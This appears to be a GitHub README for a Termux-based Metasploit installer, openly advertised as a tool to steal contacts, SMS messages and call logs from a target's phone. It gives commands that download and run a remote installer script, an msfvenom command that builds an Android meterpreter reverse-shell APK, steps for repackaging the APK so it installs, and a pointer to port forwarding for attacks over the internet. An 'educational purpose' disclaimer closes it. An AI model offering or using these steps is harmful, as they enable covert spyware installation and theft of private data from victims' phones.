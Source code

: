 # metasploit
This tool will help you to steal contacts, sms, call logs and other thing of Target Mobile.
<p align="center"><img src="https://spportcovid19patient.000webhostapp.com/metasploit-696x363.png"></p>

<p align="center">
<img src="https://img.shields.io/badge/Python-3-brightgreen.svg?style=plastic">
<img src="https://img.shields.io/badge/Docker-✔-blue.svg?style=plastic">
</p>

<p align="center">
  <a href="https://twitter.com/jeopardy4u"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://instagram.com/loathfaith"><b>Instagram</b></a>
  <span> - </span>
  <a href="https://github.com/loathsomeguy"><b>Tej's Page</b></a>
</p>

## Installation

### Termux

```bashapt update && upgrade
termux-setup-storage
pkg update && pkg upgrade -y
apt-get install curl
apt-get install wget
apt-get install git
pkg install postgresql
wget https://raw.githubusercontent.com/loathsomeguy/metasploit/main/metasploit.sh
chmod +x metasploit.sh
./metasploit.sh
```
## After installation complete
Start `postgresql`
```bash
./postgresql_ctl.sh start
```
And run `msfconsole`
```bash
msfconsole
```
## Cmd to generate payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.29.29 LPORT=6767 R > /sdcard/payload.apk
```

## What will be my LHOST & LPORT?
```
LHOST: your local ip of wifi/mobile network

LPORT: you can use any port
```
## Payload Not installing, There was a problem parsing the package?
```
1. Install apk editor pro in your mobile
2. Open Apk Editor Pro and "select an apk fiel and choose your payload"
3. Click "FULL EDIT (Resource Re-Build)"
4. Select Manifest in bottom right corner
5. Now Search for SDK and change target sdk version to 22
6. Now save and again save to rebuild the apk
7. Go to APK Editor Pro folder and install that File

```
## How it is useful?

* It is used to retrieve all the messages, contacts, call-logs from the Target Mobile on the same or different Network. However you need to learn how to do port-forwarding in order to do it on different network.

## Warning
***This tool is only for educational purpose. If you use this tool for other purposes except education we will not be responsible in such cases.***
